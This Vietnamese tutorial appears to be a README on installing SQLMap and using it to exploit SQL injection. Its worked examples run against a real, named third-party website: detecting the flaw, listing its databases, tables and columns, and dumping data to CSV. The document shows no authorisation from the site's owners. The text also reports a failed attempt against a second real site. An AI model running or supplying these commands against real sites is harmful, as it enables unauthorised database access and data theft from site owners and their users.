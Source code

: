 # Hướng dẫn cài đặt và sử dụng SQLMap
SQLMap là 1 công cụ được sử dụng để khai thác lỗi SQL injection của các trang web<br>
SQL injection là lỗi giúp ta có thể can thiệp vào cơ sở dữ liệu ở backend của trang web mà không cần kiểm duyệt hay đăng nhập hoặc thậm chí có thể lấy được cả username và password của quản trị CSDL. Khi đã có thể can thiệp vào CSDL ta có thể làm rất nhiều việc, từ lấy tài khoản của user khác, thay đổi thông tin người dùng hoặc thậm chí xóa toàn bộ CSDL.<br>
## Cài đặt
Trước hết ta cần phải cài đặt sqlmap
```
$ sudo apt install sqlmap
```
## Các bước thực hiện
### Bước 1: Khởi động SQLMap
Để khởi động SQLmap thì ta gõ lệnh
```
$ sqlmap
```
Để xem các tham số mà SQLmap hỗ trợ thì ta thêm --help vào sau lệnh gọi
```
$ sqlmap --help
```
### Bước 2: Bắt đầu việc kiểm thử bảo mật trang web
Link chúng ta sử dụng để làm ví dụ: https://www.sugartech.co.za/links/index.php?catid=11<br>
Kiểm tra xem trang web có lỗ hổng không
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch
```
Giải thích:<br>
-u: đường dẫn URL đến trang web cần kiểm tra<br>
--batch: sử dụng input mặc định cho các options<br>
Kết quả nhận được sau khi chạy câu lệnh nếu web có lỗ hổng SQL injection
![](batch.png)<br>
Nếu không thể inject được trang web ta sẽ nhận được thông báo như sau
![](fail_injection.png)<br>
Nếu không có thông báo như trên ta tiếp tục đi sâu vào các database trong CSDL
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch --dbs
```
Giải thích:
--dbs: liệt kê các database trong CSDL<br>
Kết quả nhận được là danh sách các database có trong CSDL
![](dbs.png) <br>
Ta nhận thấy có 2 database là information_schema và sugarte_db1.<br>
Tiếp theo ta sẽ sử dụng database sugarte_db1 để làm ví dụ
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch -D sugarte_db1 --tables
```
Giải thích:<br>
-D: chọn database để thao tác<br>
--tables: liệt kê danh sách các tables trong database<br>
Kết quả nhận được<br>
![](tables.png)<br>
Ta nhận được 22 tables trong database.<br>
Tiếp theo ta sẽ xem trong table FactoryConfig có những gì bằng câu lệnh<br>
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch -D sugarte_db1 -T FactoryConfig --columns
```
Kết quả nhận được<br>
![](columns.png)
Giải thích:<br>
-T: lựa chọn table để thao tác<br>
--columns: liệt kê danh sách các cột trong table<br>
Để dump dữ liệu trong các cột ra file csv ta sử dụng câu lệnh
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch -D sugarte_db1 -T FactoryConfig -C tên_cột --dump
```
Giải thích:<br>
-C: lựa chọn cột để thao tác
## Kết quả khi áp dụng SQLmap để kiểm thử với hoclieu.vn
Không thể khai thác lỗ hổng SQL injection trên trang hoclieu.vn